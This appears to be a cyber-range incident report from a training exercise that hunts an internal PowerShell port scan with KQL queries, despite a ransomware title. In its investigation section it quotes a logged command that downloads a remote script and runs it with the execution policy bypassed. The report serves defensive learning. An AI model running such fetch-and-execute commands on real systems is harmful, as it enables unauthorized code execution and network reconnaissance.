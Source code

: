 

# Zero-Day Ransomware (PwnCrypt) Outbreak Project 
## 🛡️ Incident Report: PwnCrypt Ransomware Detection and Containment

# Objective:
To investigate abnormal traffic patterns originating from within the network, identify any signs of lateral movement or misuse of built-in tools (e.g., PowerShell), and validate whether an internal host is responsible for the performance degradation.

---
# Tools & Technology:
- Azure Virtual Machine
- PowerShell 
- Microsoft Defender
- KQL Query

---
# Table of contents

- [1. Summary](#1-summary)
- [2. Preparation](#2-preparation)
- [3. Data Collection](#3-data-collection)
- [4. Data Analysis](#4-data-analysis)
- [5. Investigation](#5-investigation)
- [6. Response](#6-response)
- [7. MITRE ATT&CK Mapping](#7-mitre-attck-mapping)
- [8. Lessons Learned / Improvement:](#8-lessons-learned--improvement)
- [9. Final Status](#9-final-status)
---



## 1. Summary
Incident Title: Unauthorized Internal Port Scanning via PowerShell <br />
Date of Discovery: June 10, 2025 <br />
Reporting Team: Security Operations / Threat Hunting <br />
Impacted Network Segment: 10.0.0.0/16 <br />
Affected Host: windows-target-1 (10.0.0.5) <br />
TTPs Observed: T1046, T1059.001, T1078, T1105, T1204.002 <br />
Incident Status: Contained; Rebuilt/ Re-imaging  <br />

## 2. Preparation
### Observation:
The server team reported network performance degradation affecting older devices on the 10.0.0.0/16 internal network.

### Initial Assumption:
After ruling out external threats (e.g., DDoS), internal causes such as large file transfers or port scanning were considered. The environment allows unrestricted internal traffic and the use of scripting tools like PowerShell.

### Hypothesis:
A compromised internal host may be engaging in lateral movement or reconnaissance via port scanning.

## 3. Data Collection
### Data Sources Queried:
#### DeviceNetworkEvents
  ![DataCollection1](https://github.com/user-attachments/assets/74d73fd3-8472-4d27-a1cc-59aafc29736d)

#### DeviceProcessEvents
  ![DataCollection2](https://github.com/user-attachments/assets/b8cacdcc-dac6-4469-856d-d19205730b9e)

#### DeviceFileEvents 
![DataCollection3](https://github.com/user-attachments/assets/f53e8661-60e6-45a2-97f1-409192e3a672)



## 4. Data Analysis

### Focus Areas:

- Failed network connections (potential scanning) 
- Suspicious process executions
- File downloads or script execution activity
  
### Step 1:
Analyzed DeviceNetworkEvents for failed outbound connection attempts.

```kql
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| summarize ConnectionCount = count() by DeviceName, ActionType, LocalIP, RemoteIP
| order by ConnectionCount

```

![DataCollection4](https://github.com/user-attachments/assets/d067d36d-1ea9-4c6f-8933-97b668d4e367)


Result: IP 10.0.0.5 exhibited an unusually high number of failed connections.

### Step 2:
Filtered for all failed connection timestamps for IP 10.0.0.5:

```kql
let IPInQuestion = "10.0.0.5";
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| where LocalIP == IPInQuestion
| order by Timestamp desc
```
![DataCollection5](https://github.com/user-attachments/assets/55159acf-f97d-47e9-b5f4-d60283a8ec1c)



Finding:
Connections were attempted to multiple ports in sequential order—indicating an automated port scan.

## 5. Investigation

Pivoted to DeviceProcessEvents for host windows-target-1 and timestamp near suspicious activity:

```kql
let VMName = "windows-target-1";
let specificTime = datetime(2025-06-10T08:41:10.2458249Z);
DeviceProcessEvents
| where Timestamp between ((specificTime - 10m) .. (specificTime + 10m))
| where DeviceName == VMName
| where InitiatingProcessCommandLine contains "portscan"
| order by Timestamp desc
| project Timestamp, FileName, InitiatingProcessCommandLine, AccountName

```
![DeviceProcessEvents](https://github.com/user-attachments/assets/42402a97-5812-4ae5-9230-e88689618cbc)

Account:
Executed by SYSTEM — not expected behavior; not triggered by any admin.

Key Finding:
A PowerShell command was executed at 2025-06-10T08:37:51Z with the following line:

```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1' -OutFile 'C:\programdata\portscan.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1

```

I logged into the suspect computer and observed the powershell script that was used to conduct the port scan:

![portscan](https://github.com/user-attachments/assets/ba71f03c-5e53-4fab-bf31-743708f8d6d2)


## 6. Response
### Actions Taken:

- Logged into the device to verify script existence. 
- Confirmed the file portscan.ps1 existed under C:\ProgramData. 
- Isolated the host from the network. 
- Performed a full malware scan (no malware detected). 
- Escalated to IT for reimaging of the device to ensure integrity. 

## 7. MITRE ATT&CK Mapping

- T1046 - Network Service Discovery  
  (Port scanning activity to identify open services)

- T1059.001 - Command and Scripting Interpreter: PowerShell  
  (Execution of PowerShell script to perform scan)

- T1078 - Valid Accounts  
  (Script executed under SYSTEM account)

- T1105 - Ingress Tool Transfer  
  (Script downloaded from external URL using Invoke-WebRequest)

- T1204.002 - User Execution: Malicious File  
  (Execution of suspicious PowerShell file)

- T1562.001 - Impair Defenses (if applicable)  
  (Not confirmed, but would apply if local defenses were bypassed or modified)

## 8. Lessons Learned / Improvement: 

Review PowerShell execution policies and endpoint monitoring rules

## 9. Final Status

Threat Contained: ✅

Device Isolated: ✅

Malware Scan Result: Clean

Device Action: Ticket submitted for full rebuild




